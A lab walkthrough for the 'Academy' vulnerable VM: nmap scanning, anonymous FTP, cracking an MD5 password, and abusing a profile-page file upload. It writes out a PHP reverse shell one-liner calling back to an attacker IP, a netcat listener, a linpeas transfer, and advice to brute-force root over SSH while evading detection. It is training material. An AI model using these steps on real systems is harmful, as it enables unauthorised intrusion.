 First of all set up academy on your VM ware

![](https://i.imgur.com/sqlEL3g.png)

Now use the logs `root:tcm` and you should be logged in successfully, Once logged in you can use the command `dhclient` followed by `ip a` to check for machine ip address

![](https://i.imgur.com/oVlP40y.png)

Time to run our Nmap scan on targets, first of all directly SSH to the target using the host system to make things easier for us to interact with the Machine instead of clicking VM Ware always

![](https://i.imgur.com/cTGXvph.png)

![](https://i.imgur.com/aGx2Ruw.png)

If you have problems connecting, Make sure to set network to bridge then run `dhclient` before `ip a` 

Running our Nmap scan , Query `nmap -p- -sCV 192.168.0.108 -v --min-rate=1000 -T4 -oN nmap_academy.txt`

![](https://i.imgur.com/v6wqzFu.png)

## Enumeration

> Usually in CTF's we erase enumerating port 22/SSH out of the board, cos' we don't usually go through that route except we find a valid username and start brute forcing for passwords, But in real-world scenario, You should brute force ssh using `root` as username and seeing if the account uses a weak credential, also try to see if you can bypass detection, like trying to log in over 500 attempts without getting detected, that is a security risk you should add to your reports


**Starting with FTP** 

We have anonymous login on FTP, so let start out with that, Remember nmap told us we have `anonymous` login with a `note.txt`

![](https://i.imgur.com/SHmlC7f.png)

Checking what the note.txt has, give us this 

![](https://i.imgur.com/MRhguMj.png)

Nice !!!, `cd73502828457d15655bbd7a63fb0bc8` , looks like a password though "Learn SQL😆" , but stored in MD5, you can use `hash-identifier` to check it out in kali , soo we will be cracking it using `john-the-ripper`  

![](https://i.imgur.com/BeXT0EU.png)

We got the password which is `student` , we need to try it out somewhere so since we found port 80/HTTP , let check it out

![](https://i.imgur.com/5hsUFWn.png)

We have a default Apache web page, trying out directory bruteforce gives us `academy` and `phpmyadmin` 

![](https://i.imgur.com/jnxSiyX.png)

Checking out `/academy` we have a login page, using the credentials we got `10201321:student` we were successfully logged in

![](https://i.imgur.com/MX9LNyp.png)

Navigating the websites i found a file upload vulnerability on `/academy/my-profile.php`

![](https://i.imgur.com/ORgyyqB.png)

We can upload our PHP reverse shell file, Get one from https://www.revshells.com/ , save it in a file with the `.php` extension and upload it as an image file, but before we do that start a netcat listener with `nc -lvnp 1337` , then go ahead with uploading the PHP file 

![](https://i.imgur.com/iS3YC7v.png)

Now paste in your reverse shell payload on the execute bar, i will be using `php -r '$sock=fsockopen("192.168.0.157",1337);exec("/bin/bash <&3 >&3 2>&3");'` for my payload, after pasting these you should get a connection on your terminal

![](https://i.imgur.com/xG9ZJFD.png)

Great, we got shell back as `www-data` so we need to do privilege escalation 

![](https://i.imgur.com/BoFJmdz.png)

We will be using `Linpeas.sh` for this tutorial, you can transfer it to the target system by using python and wget , also make sure to grant executable permissions and run with `./linpeas.sh`

![](https://i.imgur.com/X80fXIh.png)




